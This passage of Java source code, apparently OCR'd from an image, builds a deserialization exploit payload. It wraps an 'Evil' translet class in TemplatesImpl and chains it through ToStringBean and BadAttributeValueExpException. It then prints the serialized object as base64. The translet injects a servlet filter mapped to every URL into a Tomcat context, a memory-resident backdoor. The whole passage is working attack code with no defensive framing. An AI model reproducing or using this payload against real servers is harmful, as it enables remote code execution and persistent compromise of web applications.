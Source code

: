 ```java
                filterMap.setFilterName("A");
                filterMap.addURLPattern("/*");
                standardContext.addFilterMap(filterMap);
                standardContext.filterStart();
                System.out.println("injected");
            }catch (Throwable t){
                t.printStackTrace();
            }
        }
        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }
    }
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
        byte[][] bytecodes = new byte[][]{clazz.toBytecode()};

        Class templatesImplClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Constructor constructor = templatesImplClass.getDeclaredConstructor(
                byte[][].class, String.class, Properties.class, int.class, TransformerFactoryImpl.class);
        constructor.setAccessible(true);
        TemplatesImpl templatesImpl = (TemplatesImpl) constructor.newInstance(
                bytecodes, "test", new Properties(), 1, new TransformerFactoryImpl()
        );
        ToStringBean bean = new ToStringBean(Templates.class, templatesImpl);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException, "val", bean);

        ByteArrayOutputStream arr = new ByteArrayOutputStream();
        try (ObjectOutputStream output = new ObjectOutputStream(arr)){
            output.writeObject(badAttributeValueExpException);
        }
        byte[] base64code = Base64.getEncoder().encode(arr.toByteArray());
        String payload = new String(base64code);
        System.out.println(payload);

    }

    public static void setFieldValue(Object obj, String name, Object val) throws Exception{
        Field f = obj.getClass().getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }

}
```
